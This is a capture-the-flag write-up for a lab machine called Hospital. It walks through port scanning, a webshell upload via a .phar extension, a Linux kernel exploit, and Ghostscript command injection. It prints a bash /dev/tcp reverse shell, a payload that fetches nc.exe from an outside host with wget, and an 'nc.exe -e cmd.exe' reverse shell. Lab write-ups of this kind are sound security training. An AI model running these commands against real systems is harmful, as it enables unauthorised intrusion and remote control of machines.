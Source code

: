 Threader3000 scan:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/c3e2ac2b-ba94-435d-b84a-09a56cdca187)

nmap scan:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/3baeac0c-cf59-4c2d-8466-80f3c8116bb8)
![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/3a1f4b64-bf11-4b7b-a1bb-c9a893ae365e)

hospital.htb is the domain:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/39001823-a25b-469f-aceb-f864c4d06b12)

Seems like rpcclient/smb/ldap does not connect:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/5abd85ad-9fb4-4dc2-a281-ba4ce63e4d38)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/7b8e0057-441b-4cc3-86cf-3887100f2221)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/f9d5f3f3-98ee-4d01-8d22-473b786fbc51)

After visiting the webpage on port 8080, we see an interesting upload feature:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/4fb6996f-1a05-4536-a903-3ede84518add)

Seems to have went through:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/69bd009f-2640-414f-b728-d909365c1504)

dirsearch results:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/c519489f-f328-4bdc-a5cd-3b4b7cf3f1f4)

We seem to have no permission, but accessing the file directly works:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/026f37be-ba5c-459e-925c-6c65d76ad09d)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/708a50e2-2fdc-4beb-9d77-88f53334f4f2)

Seems like we are on another machine, since Hospital should be a Windows box but this one is Linux:

Found some sql creds:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/95507aee-e924-4b9a-b5b5-bbd1560c88a0)

Stabilizing:

Running ``` bash -c "bash -i >& /dev/tcp/10.10.14.194/1234 0>&1" ``` in the webshell

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/4a3944db-e489-4a19-b981-a9773124c251)

Running linpeas:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/65067cd0-e53d-48ed-a585-2c255c481891)

Running a kernel exploit, we get root and see drwilliams hash and crack it:

https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post_page-----887fd3d6fee9

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/2d420d5d-1704-481d-bfab-0bf84d2fa696)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/30618fb2-4551-46be-9a76-98fb51bd3cff)

Logging into the webmail server we saw, there is something about Ghostscript which leads to this CVE:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/08755689-b598-4c6c-9cc1-41082847aef1)

https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection

Exploiting the vulnerability:

``` python3 CVE_2023_36664_exploit.py --payload "wget 10.10.14.196/nc.exe -o nc.exe" -i --filename file.eps ```
 - Note that we need a Windows executable nc since it is a Windows machine

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/5e82ace8-c8b5-4374-b2a7-5e92a4956148)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/ff971cfb-7200-452f-93a1-8200795dfc1a)

``` python3 CVE_2023_36664_exploit.py --payload "nc.exe 10.10.14.196 1234 -e cmd.exe" -i --filename file.eps ```

Sending it to drbrown again:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/919837d4-503e-4ef9-9df7-875afcd251bc)

## Privesc
User privs:

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/bb0af363-db94-4b0f-9131-64ae1e1298a4)

Seems like the webserver on 443 is running as root, so we upload a p0wny shell and get root!

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/aba2582a-76c5-4214-883a-b97e091a118b)


## What I Learned
 - Folder perms != file perms, even if you can't access the directory, you may be able to access a file in the directory
 - .phar extension substitute for .php extension
 - Ghostscript Command Injection CVE
